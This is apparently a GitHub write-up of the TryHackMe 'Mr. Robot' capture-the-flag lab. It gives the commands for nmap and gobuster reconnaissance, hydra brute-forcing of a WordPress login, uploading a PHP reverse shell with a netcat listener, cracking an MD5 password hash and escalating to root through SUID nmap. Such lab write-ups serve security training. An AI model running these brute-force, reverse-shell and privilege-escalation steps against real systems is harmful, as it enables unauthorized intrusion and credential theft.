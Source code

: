 # Mr. Robot CTF

## Initial Scan

Scan the target IP with nmap to identify open ports and services:

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_30_09](https://github.com/user-attachments/assets/a85bb534-6a81-4e13-b89d-36a6a281a1e6)
nmap -sC -sV -oA scan 10.10.95.162

Results: Three ports identified two ports are open.

## Web Exploration

Visiting the target IP in a web browser redirects to a unique and stylized web page inspired by the TV show "Mr. Robot." The web page offers several commands:

prepare: Displays a video.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_30_53](https://github.com/user-attachments/assets/2b68247d-8759-41a5-b167-427367449fe3)

fsociety: Displays a video.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_31_45](https://github.com/user-attachments/assets/8747e6a4-21df-482f-b3b9-a9dc24afbec2)

inform: Shows pictures.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_32_12](https://github.com/user-attachments/assets/f5a7297f-4158-498a-a22d-9fdf75059b9e)

question: Shows pictures.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_32_59](https://github.com/user-attachments/assets/6ca56c64-0738-4211-9138-62ea1fbcae04)

wakeup: Shows a film.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_33_35](https://github.com/user-attachments/assets/36e3ecb2-f3d2-42fc-822d-fa09ab4bdd87)

join: A prompt to join.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_34_07](https://github.com/user-attachments/assets/7984608a-3b0c-42c5-8676-3692738125df)

## Source Code Analysis

View the source code of the website.
Findings: Message YOU ARE NOT ALONE.
Hint: Suggests checking 'robots'

## First Key and Wordlist

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_37_19](https://github.com/user-attachments/assets/3331d791-c00a-4565-9568-395c40d7b4d2)

Navigate to http://10.10.152.21/robots.txt.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_37_45](https://github.com/user-attachments/assets/a0ea2758-d095-4c52-809f-5938c24e04cb)

Findings: First key and fsocity.dic wordlist.
Flag 1

## Directory Enumeration

Use gobuster to find additional web pages:
Command: `gobuster dir -u http://10.10.152.21/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
   - Found the `/wp-login` page indicating a WordPress site.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_38_21](https://github.com/user-attachments/assets/6b36f9b2-41a4-440b-a633-0b2416077cbe)

## Brute Forcing Login Credentials

Attempting to brute force the username using fsocity.dic as the wordlist:
Command: `hydra -L fsocity.dic -p test 10.10.152.21 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:invalid username" -t 30`
   - Successfully found the username: `Elliot`.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_54_17](https://github.com/user-attachments/assets/89acda0a-d2f5-4ee0-aee1-b9b2b5c9adb6)

Next, brute forcing the password for the username Elliot:
Command: `hydra -l Elliot -P fsocity.dic 10.10.152.21 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=302"`
   - Successfully found the password ER28-0652 and logged into the WordPress admin panel.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_55_26](https://github.com/user-attachments/assets/85f14756-1c5f-4a27-b014-3aea64248e35)

Upon successful login, we can now upload script via the WordPress admin panel.

## Reverse Shell via WordPress Editor

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_58_16](https://github.com/user-attachments/assets/b1bb2c7b-3811-4ab7-b47b-f9f818d962d7)

Modify PHP Reverse Shell script

<div style="background-color: black; color: white; padding: 10px; border-radius: 10px;">
<pre><code>
   https://github.com/pentestmonkey/php-reverse-shell
</code></pre>
</div>


Upload the modified script

## Start a netcat listener on the local machine:

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_08_08](https://github.com/user-attachments/assets/9d240f2e-216d-45c4-934f-de79df8b07e4)

Command: `nc -lvnp 1234`

## Activate Reverse Shell

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_08_08](https://github.com/user-attachments/assets/a9be1d60-40d1-4a1a-98d2-2b2f966f2f77)

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_08_13](https://github.com/user-attachments/assets/13755c19-9328-4952-b706-b78a6c2e1e9e)

The /home/robot directory contains a file password.raw-md5 with the following content:
robot:c3fcd3d76192e4007dfb496cca67e13b

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_09_25](https://github.com/user-attachments/assets/1dd19792-2a52-448e-b570-db4e7291ba74)

## Crack the MD5 hash using Cracknation

Result: Password is `abcdefghijklmnopqrstuvwxyz`.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_10_25](https://github.com/user-attachments/assets/c2e15024-e70b-498f-bf5e-d8d2cdf6d2ae)

## Switching User

python -c 'import pty; pty.spawn("/bin/bash")'
su robot
Password: abcdefghijklmnopqrstuvwxyz

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_13_18](https://github.com/user-attachments/assets/da5bf96c-57e0-477b-82c5-455a6bd1be1a)

Flag 2

## Find files with SUID bit set:

find / -perm -4000 2>/dev/null

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_20_47](https://github.com/user-attachments/assets/6e01275c-39f1-42e8-a01d-593e0284bddb)

Noticed nmap binary.

## Use nmap for privilege escalation (referencing GTFOBins):

nmap --interactive
!sh

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_21_09](https://github.com/user-attachments/assets/ca3388dd-a162-4497-968b-9a92148f2b84)

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_23_17](https://github.com/user-attachments/assets/8a2f1308-99db-4820-a1e3-e57397be19c1)

Locate the final key in the /root directory.
Flag 3

## Tools Used
   ### Nmap: 
   For initial scanning and service enumeration.
   ### Gobuster: 
   For directory enumeration.
   ### Hydra: 
   For brute-forcing login credentials.
   ### Netcat: 
   For establishing a reverse shell.
   ### PHP Reverse Shell: 
   Script for reverse shell access via WordPress.
   ### GTFOBins: 
   For privilege escalation techniques.

## Flags
First Key: Found in `robots.txt`.

Second Key: Found in `/home/robot`.

Final Key: Found in `/root`.

## Conclusion
This detailed walkthrough guides you through solving the Mr. Robot CTF challenge on TryHackMe. It covers all steps from initial reconnaissance, brute-forcing login credentials, gaining shell access, and escalating privileges to retrieve all flags. The journey mirrors the intriguing elements of the Mr. Robot TV show, making it a fun and educational experience.
